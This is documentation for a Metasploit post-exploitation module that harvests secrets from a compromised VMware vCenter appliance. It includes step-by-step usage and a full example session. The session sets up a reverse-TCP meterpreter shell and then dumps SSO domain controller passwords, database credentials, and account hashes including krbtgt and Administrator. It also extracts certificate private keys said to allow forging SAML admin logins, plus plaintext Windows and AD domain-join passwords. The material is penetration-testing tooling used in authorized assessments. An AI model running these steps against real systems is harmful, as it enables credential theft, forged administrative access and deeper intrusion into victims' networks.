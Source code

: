 Grab secrets and keys from the vCenter server and add them to loot. Secrets include the dcAccountDN
and dcAccountPassword for the vCenter machine which can be used for maniuplating the SSO domain via
standard LDAP interface; good for plugging into the vmware_vcenter_vmdir_ldap module or for adding
new SSO admin users. The MACHINE_SSL, VMCA_ROOT and SSO IdP certificates with assocaited private keys
are also plundered and can be used to sign forged SAML assertions for the /ui admin interface.

## Vulnerable Application
This module is tested against the vCenter appliance only; it will not work on Windows vCenter
instances. It is intended to be run after successfully acquiring root access on a vCenter appliance
and is useful for penetrating further into the environment following a vCenter exploit that results
in a root shell. This module has been tested against vCenter appliance versions 7.0 and 6.7 but will
probably work against other versions of vCenter appliance.

## Verification Steps
This is a post module and requires a meterpreter or shell session on the vCenter appliance with root
access.

1. Start msfconsole
2. Get session on vCenter appliance via exploit of your choice and background it
3. Do: `use post/linux/gather/vcenter_secrets_dump`
4. Do: `set session <session>`
15. Do: `dump`

## Options
**SESSION**

Which session to use, which can be viewed with `sessions -l`

## Advanced Options
**DUMP_VMDIR**

Boolean value that controls whether the module will attempt to extract vSphere SSO domain
information, including SSO user hashes and a complete LDIF dump of the SSO directory. Defaults
to true.

**DUMP_VMAFD**

Boolean value that controls whether the module will attempt to extract vSphere certificates, private
keys, and secrets. Defaults to true.

**DUMP_SPEC**

If DUMP_VMAFD is also true, attempt to extract VM Guest Customization secrets from PSQL using the
DATA-ENCIPHERMENT key extracted from VMAFD. Defaults to true.

## Scenarios
Example run from meterpreter session on vCenter appliance version 7.0.2

```
msf6 > use multi/handler
set payload linux/x86/meterpreter/reverse_tcp
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
set LPORT 4444
msf6 exploit(multi/handler) > set LHOST 192.168.101.10
LHOST => 192.168.101.10
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.101.10:4444 
[*] Sending stage (989032 bytes) to 192.168.100.11
[*] Meterpreter session 1 opened (192.168.101.10:4444 -> 192.168.100.11:53410 ) at 2022-04-28 16:22:17 -0400

meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/linux/gather/vcenter_secrets_dump
msf6 post(linux/gather/vcenter_secrets_dump) > set session 1
session => 1
msf6 post(linux/gather/vcenter_secrets_dump) > dump

[*] Gathering vSphere SSO domain information ...
[*] vSphere Hostname and IPv4: vcenteralpha.cesium137.io [192.168.100.11]
[+] vSphere SSO DC DN: cn=vcenteralpha.cesium137.io,ou=Domain Controllers,dc=alpha,dc=vsphere,dc=local
[+] vSphere SSO DC PW: .AwoZ1;wd>x_b=M1FQ'}
[*] Extracting PostgreSQL database credentials ...
[+] VCDB Name: VCDB
[+] VCDB User: vc
[+] VCDB PW: my6h@)IN1jW$nHT{
[*] Extracting vSphere SSO domain information ...
[*] Dumping vmdir schema to LDIF ...
[+] LDIF Dump: /root/.msf4/loot/20220428162238_default_192.168.100.11_vmdir_339905.ldif
[*] Processing vmdir LDIF (this may take several minutes) ...
[*] Processing LDIF entries ...
[*] Processing SSO account hashes ...
[+] vSphere SSO User Credential: cn=vcenteralpha.cesium137.io,ou=Domain Controllers,dc=alpha,dc=vsphere,dc=local:$dynamic_82$f48caa19007e8bb3d76a7d172e2d1976f4747e0ed84159a712eb58156ede7478827909bf4acf9f71b74616ce5110d99b8426d8b3295b02c04aacff3c27607ab8$HEX$9374651ada3414775604fbdb150c8cdc
[+] vSphere SSO User Credential: CN=waiter 66bac9fd-6a99-43eb-8661-1295c39e9e4d,cn=users,dc=alpha,dc=vsphere,dc=local:$dynamic_82$8335fa00d0498f1028691aced7d8945be0fa1f689dc628a3307ec7918a8fcdb04587ebd8a6dc1b14cacc0c11e4f84c5e022108e0950b62dc63f3f37c0a3b3453$HEX$4108122797d8894b9963e5ac943918b9
[+] vSphere SSO User Credential: cn=krbtgt/ALPHA.VSPHERE.LOCAL,cn=users,dc=ALPHA,dc=VSPHERE,dc=LOCAL:$dynamic_82$0da378937caf846413b0a9a328e9fe901513bddddea9a0de5ca520f4d7eca9d2eeb7287a26f0d079941bb46df36a5b321c53b807e59c55b10bb62ff260e28021$HEX$266ca458d66911df01347b372939ae2a
[+] vSphere SSO User Credential: cn=K/M,cn=users,dc=ALPHA,dc=VSPHERE,dc=LOCAL:$dynamic_82$c20ca496510e8e6a0d3d9aa470dfe0baf06ccfb2ecc2e4952d232859e8fc22ccd3108926eb115574043652157db3f1d557af1cd1580190546178758eee57834a$HEX$22209783f4c187b777a31c2a814c2ff7
[+] vSphere SSO User Credential: cn=Administrator,cn=Users,dc=alpha,dc=vsphere,dc=local:$dynamic_82$f96cd214646ba2e4e21774a183f18572bc3d6c4174801d0523cbdc04d02bf69b102bfe9d68fdd71c5866f4972b2359516e65f59c4bda6eebd3cdca59b5f55be8$HEX$4f267135b496ff3119afc21fefda8643
[+] vSphere SSO User Credential: cn=vmca/vcenteralpha.cesium137.io@ALPHA.VSPHERE.LOCAL,cn=Managed Service Accounts,dc=alpha,dc=vsphere,dc=local:$dynamic_82$ee963a2f36d38a73e5cf4be729e7be4f491c97fc91b3e9bed96216de9bf72914d1442c49650b07366e9347369ce892d823e06613195027e3f44dfd50662b98dc$HEX$842fdf0b5b972c8f722fb3139142231d
[+] vSphere SSO User Credential: cn=ldap/vcenteralpha.cesium137.io@ALPHA.VSPHERE.LOCAL,cn=Managed Service Accounts,dc=alpha,dc=vsphere,dc=local:$dynamic_82$85523e5ad2ac353b925a0cc9f0fad88c881b17d5b218fdd568fb819a7bc58abf7e8783013e22468c657cae7f776ec77fb8b0ad815ef5cdc6ea114c701f19fa52$HEX$4faf7011a11a4939216a1211a4b08cea
[+] vSphere SSO User Credential: cn=DNS/vcenteralpha.cesium137.io@ALPHA.VSPHERE.LOCAL,cn=Managed Service Accounts,dc=alpha,dc=vsphere,dc=local:$dynamic_82$ad40b15f98588bc0c856a0f881ea857d6f3442a6755b9c33e40c7960d1833414d25ef96120f9416fca96d0ecfe3df6ddc1e992e5881baeacdcc4610bd43eda79$HEX$f3d9e1c742d9342c78c1825ab5b7efee
[+] vSphere SSO User Credential: cn=host/vcenteralpha.cesium137.io@ALPHA.VSPHERE.LOCAL,cn=Managed Service Accounts,dc=alpha,dc=vsphere,dc=local:$dynamic_82$bbcb9c30d8c1a40f409d24fe6ede60df7bf4860a9bdd50b146d063a194fdadb0df80d81ea5ea48a377f20709fa1c22f696facde785b160ceb0eb92eb5f8c5308$HEX$5fab6ef4332396fb4b4410cca448d52d
[*] Extracting certificates from vSphere platform ...
[+] VMCA_ROOT key: /root/.msf4/loot/20220428162239_default_192.168.100.11_vmca_411348.key
[+] VMCA_ROOT cert: /root/.msf4/loot/20220428162239_default_192.168.100.11_vmca_551671.pem
[+] SSO_STS_IDP key: /root/.msf4/loot/20220428162241_default_192.168.100.11_idp_775724.key
[+] SSO_STS_IDP cert: /root/.msf4/loot/20220428162241_default_192.168.100.11_idp_747430.pem
[+] MACHINE_SSL_CERT key: /root/.msf4/loot/20220428162241_default_192.168.100.11_ssl_134237.key
[+] MACHINE_SSL_CERT cert: /root/.msf4/loot/20220428162242_default_192.168.100.11_ssl_373472.pem
[+] DATA-ENCIPHERMENT key: /root/.msf4/loot/20220428162243_default_192.168.100.11_data_033857.key
[+] DATA-ENCIPHERMENT cert: /root/.msf4/loot/20220428162243_default_192.168.100.11_data_727693.pem
[*] Searching for secrets in VM Guest Customization Specification XML ...
[*] Initial administrator account password found for vpx_customization_spec 'Windows 10 Ent No Domain Join':
[+] Built-in administrator PW: IAmSam!
[*] Initial administrator account password found for vpx_customization_spec 'Windows 10 Ent':
[+] Built-in administrator PW: Metasploit1$
[*] AD domain join account found for vpx_customization_spec 'Windows 10 Ent':
[+] AD User: administrator@cesium137.io
[+] AD Pass: ThisIsSecret!
[*] Post module execution completed
```
